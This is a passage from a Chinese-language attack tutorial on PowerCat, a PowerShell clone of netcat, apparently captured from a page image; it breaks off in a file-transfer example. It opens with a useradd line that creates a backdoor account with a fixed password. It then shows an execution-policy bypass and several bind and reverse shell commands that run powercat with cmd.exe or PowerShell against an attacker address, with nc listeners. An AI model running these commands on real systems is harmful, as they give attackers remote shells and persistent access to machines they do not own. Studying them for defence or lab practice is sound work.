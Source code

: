    ```useradd -p `openssl passwd -1 -salt 'salt' 123456` jack ```

> `PowerCat` 是一个 `powershell` 写的 `TCP/IP` 工具，可以看成 `netcat` 的 `powershell` 实现，并且在里面加入和众多其他功能，如： 文件上传、 `smb` 协议支持、中继模式，生成 `payload`、端口扫描等

##### PowerCat 安装

1. 下载

> `https://github.com/besimorhino/powercat`

2. 导入（`shift` + 鼠标右键，打开 `powershell`）

> `Import-Module .\powercat.ps1`

3. 如果提示“未能加载指定模块”，可能是权限问题

> `Set-ExecutionPolicy Unrestricted`

4. 使用

> `powercat -h`

##### Nc 和 PowerCat 的正向连接

1. 靶机使用 `powercat` 开启监听

> `powercat -l -p 8080 -e cmd.exe -v`

2. 攻击机使用 `nc` 连接

> `nc 192.168.xxx.xxx 8080 -vv`

##### Nc 和 PowerCat 的反向连接

1. 攻击机使用 `nc` 开启监听

> `nc -l -p 8888 -vv`

2. 靶机使用 `powercat` 连接

> `powercat -c 192.168.xxx.xxx -p 8080 -v -e cmd.exe`

##### PowerCat 和 PowerCat 的正向连接

1. 靶机使用 `powercat` 开启监听

2. 攻击机使用 `powercat` 连接

##### PowerCat 和 PowerCat 的反向连接

1. 攻击机使用 `powercat` 开启监听

> `powercat -l -p 8080 -v`

2. 靶机使用 `powercat` 连接

> `powercat -c 192.168.xxx.xxx -p 8080 -v -ep`

##### PowerCat 的其他用法

1. 使用 PowerCat 进行文件传输

> 靶机监听 `9999` 端口，接收一个名为 `test.txt` 的文件
   ```